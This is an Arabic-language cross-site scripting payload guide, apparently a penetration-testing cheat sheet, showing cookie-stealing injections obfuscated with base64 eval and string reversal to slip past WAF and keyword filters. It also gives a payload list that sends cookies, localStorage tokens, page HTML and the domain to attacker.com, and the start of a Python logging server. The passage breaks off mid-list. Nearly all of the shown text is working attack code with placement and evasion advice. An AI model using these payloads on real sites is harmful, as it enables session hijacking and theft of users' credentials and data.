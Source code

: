 #### هـ. حقن مع التعتيم
استخدام تقنيات التعتيم لتجنب الكشف.
- **الحقن**: `<script>new Image().src='http://attacker.com/log?c='+btoa(document.cookie)</script>`
  - **الإدخال**: أدخل في حقل: `<script>new Image().src='http://attacker.com/log?c='+btoa(document.cookie)</script>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط مشفرة بـ Base64.
  - **متى يُستخدم؟**: لتجنب فلاتر WAF.
- **الحقن**: `<script>eval(atob('bmV3IEltYWdlKCkuc3JjPSdodHRwOi8vYXR0YWNrZXIuY29tL2xvZz9jPScrZG9jdW1lbnQuY29va2ll'))</script>`
  - **الإدخال**: `https://example.com/?search=<script>eval(atob('bmV3IEltYWdlKCkuc3JjPSdodHRwOi8vYXR0YWNrZXIuY29tL2xvZz9jPScrZG9jdW1lbnQuY29va2ll'))</script>`
  - **كيف يعمل**: يفك تشفير Base64 ويرسل ملفات تعريف الارتباط.
  - **متى يُستخدم؟**: لتجاوز أنظمة الكشف.
- **الحقن**: `<script>new Image().src='http://attacker.com/log?c='+(document['cookie'].split('').reverse().join(''))</script>`
  - **الإدخال**: أدخل في تعليق: `<script>new Image().src='http://attacker.com/log?c='+(document['cookie'].split('').reverse().join(''))</script>`
  - **كيف يعمل**: يعكس ملفات تعريف الارتباط قبل الإرسال.
  - **متى يُستخدم؟**: لتجنب فلاتر البحث عن الكلمات.

### 2. الحقن للأتمتة
تُستخدم هذه الحقن مع سكربتات (مثل Python مع مكتبة `requests`) لأتمتة اختبار مجموعة من الحقن المستخدمة لاستخراج البيانات وتحليل الاستجابات.

#### أ. إعداد قائمة الحقن
- **المحاولات**:
  - إنشاء قائمة بالحقن التي تجمع بيانات مختلفة.
  - مثال قائمة:
    ```
    <script>new Image().src='http://attacker.com/log?c='+encodeURIComponent(document.cookie)</script>
    <script>fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})</script>
    <script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('token'))</script>
    <img src="http://attacker.com/log?c=document.cookie">
    <script>new Image().src='http://attacker.com/log?d='+encodeURIComponent(document.domain)</script>
    ```
- **كيف يعمل**:
  - يتم إرسال كل حقنة عبر نقطة إدخال XSS.
  - يتم مراقبة الخادم الخارجي لتأكيد استلام البيانات.
- **متى يُستخدم؟**:
  - عند اختبار نقاط إدخال متعددة بسرعة.

#### ب. سكربت أتمتة بسيط
- **السكربت** (مثال بلغة Python مع خادم لتسجيل البيانات):
  ```python
  from http.server import BaseHTTPRequestHandler, HTTPServer
  import urllib.parse

  class LogServer(BaseHTTPRequestHandler):
      def do_GET(self):
          self.send_response(200)
          self.end_headers()
          query = urllib.parse.urlparse(self.path).query
          print(f"بيانات مستلمة: {urllib.parse.parse_qs(query)}")

  payloads = [
      "<script>new Image().src='http://localhost:8000/log?c='+encodeURIComponent(document.cookie)</script>",
      "<script>fetch('http://localhost:8000/log', {method: 'POST', body: document.body.innerHTML})</script>",
      "<script>new Image().src='http://localhost:8000/log?s='+encodeURIComponent(localStorage.getItem('token'))</script>",
      "<img src='http://localhost:8000/log?c=document.cookie'>",
  ```
